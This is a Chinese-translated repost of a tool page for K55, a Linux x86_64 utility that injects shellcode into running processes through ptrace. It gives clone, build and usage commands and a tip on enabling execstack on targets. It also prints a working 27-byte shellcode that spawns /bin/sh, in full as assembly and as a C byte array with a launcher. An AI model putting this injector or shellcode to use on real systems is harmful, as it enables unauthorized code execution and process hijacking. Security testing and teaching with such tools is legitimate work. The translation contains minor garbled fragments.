



# K55 : Linux X86_64 进程注入实用程序

> 原文：<https://kalilinuxtutorials.com/k55/>

[](https://1.bp.blogspot.com/-48FfEHSgVAU/YACcAvPP8QI/AAAAAAAAIWg/wTHVmuBmlE0eRsVkUobAF3RTVPWfBs0KwCLcBGAsYHQ/s728/K55.png)

**K55** 净荷注入工具用于将 x86_64 外壳代码净荷注入正在运行的进程。该实用程序是使用现代 C++11 技术以及一些传统的 C linux 函数如 **`ptrace()`开发的。**

目标进程中产生的外壳代码有 27 个字节，它在目标的地址空间中执行/bin/sh(产生一个 bash 外壳)。将来，我将允许用户通过命令行参数输入他们自己的外壳代码。

**安装**

【T4`git clone https://github.com/josh0xA/K55.git`
`cd K55`
`chmod +x build-install.sh`
`./build-install.sh`

**用途**

`**Usage: ./K55 <process-name>**`

*   process-name 可以是任何具有`r-xp`或`execstack`权限的 linux 进程。

**测试**

测试 1)在一个终端(K55/目录)，运行:`**./k55_example_process/k55_test_process**`
测试 2)在另一个终端，运行注射器:`**./K55 k55_test_process**`

**在行动中**

*   当 K55 shellcode 注入器运行时(作为根用户)，在 k55_test_process 中会产生一个 shell。

**注入给定流程**



**目标**中产生的外壳



**限制**

显然，`**ptrace(PTRACE_POKETEXT...)**`通话并不是最伪装的。所以，有些应用会限制 K55 的作用。但是，为了进行安全测试，请确保为您的目标应用程序打开`**execstack**`。例如，如果我在 gdb 上测试，在我注入之前，我会运行下面的:`**sudo execstack -s /usr/bin/gdb**`。从您的发行版软件包管理器安装 execstack。对于 Arch Linux 用户，可以在 AUR 上找到 execstack。

**制作外壳负载**

**注:**以下为演示。有效载荷字符串已经被硬编码到 K55 中。

**有效载荷的组装实现([引自 shell-storm(重定向)](http://shell-storm.org/shellcode/files/shellcode-806.php) )**

```
main:
    xor eax, eax
    mov rbx, 0xFF978CD091969DD1
    neg rbx
    push rbx
    push rsp
    pop rdi
    cdq
    push rdx
    push rdi
    push rsp
    pop rsi
    mov al, 0x3b
    syscall
```

*   **C-有效载荷的实现**

```
#include <stdio.h>
#include <string.h>

// Shellcode breakdown of the assembly code.
char code[] = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05";

int main()
{
    printf("len:%d bytes\n", strlen(code));
    (*(void(*)()) code)();
    return 0;
}

```

[**Download**](https://github.com/josh0xA/K55)